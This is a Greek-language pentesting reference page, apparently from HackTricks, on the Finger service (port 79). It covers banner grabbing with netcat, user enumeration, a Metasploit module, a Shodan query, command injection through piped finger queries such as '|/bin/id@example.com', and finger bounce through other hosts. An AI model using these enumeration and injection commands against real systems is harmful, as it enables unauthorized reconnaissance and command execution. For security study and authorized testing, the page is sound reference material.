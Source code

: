 # 79 - Pentesting Finger

{{#include ../banners/hacktricks-training.md}}


## **Βασικές Πληροφορίες**

Το πρόγραμμα/υπηρεσία **Finger** χρησιμοποιείται για την ανάκτηση λεπτομερειών σχετικά με τους χρήστες υπολογιστών. Συνήθως, οι πληροφορίες που παρέχονται περιλαμβάνουν το **όνομα σύνδεσης του χρήστη, το πλήρες όνομα** και, σε ορισμένες περιπτώσεις, επιπλέον λεπτομέρειες. Αυτές οι επιπλέον λεπτομέρειες μπορεί να περιλαμβάνουν την τοποθεσία του γραφείου και τον αριθμό τηλεφώνου (αν είναι διαθέσιμος), την ώρα που ο χρήστης συνδέθηκε, την περίοδο αδράνειας (idle time), την τελευταία φορά που διαβάστηκε το email από τον χρήστη και το περιεχόμενο των αρχείων σχεδίου και έργου του χρήστη.

**Προεπιλεγμένη θύρα:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Καταμέτρηση**

### **Λήψη Πανό/Βασική σύνδεση**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Καταμέτρηση χρηστών**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Εναλλακτικά, μπορείτε να χρησιμοποιήσετε το **finger-user-enum** από [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), μερικά παραδείγματα:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap εκτελεί ένα σενάριο για να χρησιμοποιήσει τα προεπιλεγμένα σενάρια**

### Το Metasploit χρησιμοποιεί περισσότερα κόλπα από το Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

- `port:79 USER`

## Εκτέλεση εντολών
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Χρησιμοποιήστε ένα σύστημα ως δρομολογητή finger](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
{{#include ../banners/hacktricks-training.md}}
